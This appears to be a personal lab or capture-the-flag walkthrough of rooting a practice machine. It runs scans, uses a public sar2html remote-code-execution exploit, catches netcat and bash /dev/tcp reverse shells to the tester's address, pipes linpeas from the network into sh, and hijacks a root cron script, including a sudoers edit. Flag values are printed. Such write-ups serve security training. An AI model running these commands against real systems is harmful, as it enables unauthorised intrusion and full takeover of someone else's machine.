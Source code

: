 Given IP 192.168.172.35
Netdiscover under normal non given circumstances

rustscan 192.168.52.35 
	22/tcp open  ssh     syn-ack
	80/tcp open  http    syn-ack

nmap -sC -sV -p22,80  192.168.172.35 -oN sar.nmap -v
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
	|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
	|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-title: Apache2 Ubuntu Default Page: It works
	| http-methods: 
	|_  Supported Methods: POST OPTIONS HEAD GET
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

dirb http://192.168.172.35

robots.txt
	sar2html
		![[Pasted image 20231104112744.png]]

searchsploit
	searchsploit sar2html                                  
		 Exploit Title                                 |  Path
		----------------------------------------------- ---------------------------------
		sar2html 3.2.1 - 'plot' Remote Code Execution  | php/webapps/49344.py
	cp /usr/share/exploitdb/exploits/php/webapps/49344.py . 

# Weaponization

Check out the exploit
	head -n 30 49344.py
	python3 49344.py -h
		http://192.168.172.35/sar2HTML

It's interactive
![[Pasted image 20231104113225.png]]


Shoot back a normal nc rev shell

nc -nlvp 4444 

nc rev shell from target
	https://www.revshells.com/
	 →  hostname -I                                                         09:34:52
		192.168.0.101 192.168.0.105 172.17.0.1 **192.168.45.172** 
	nc 192.168.45.172 4444 -e sh

Upload a rev shell where there is a report upload option

![[Pasted image 20231104115019.png]]

local flag
b31e01a5ec4805151bc37e35b37afb71

upgrade shell 
	python3 -c 'import pty; pty.spawn("/bin/bash")'

# Priv Esc

Run linpeas.sh
	`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`


See entry for crontab

go check system crontab and I see root has a file running

modify the script that runs and we should get root

![[Pasted image 20231104115706.png]]

![[Pasted image 20231104121501.png]]

will replace the wrtie.sh with adding myself to sudoers group
	cat > write.sh
		echo "www-data ALL= (root) NOPASSWD: /usr/bin/sudo " >>/etc/sudoers
	Now check `sudo -l` after 5 minutes for perms
		Didn't work so doing a rev shell

```bash
#!/bin/bash
sh -i >& /dev/tcp/192.168.45.172/4445 0>&1
```

wrote to revshell2.sh

prep nc
	nc -nlvp 4445

python -m http.server 80


Uploaded file to target then changed name to write.sh

chmod +x write.sh

wait 5 minutes for a rev shell connection with root privledges

GOT EM

![[Pasted image 20231104121530.png]]

40c99df0259b92f7f5112f2d5dfef36b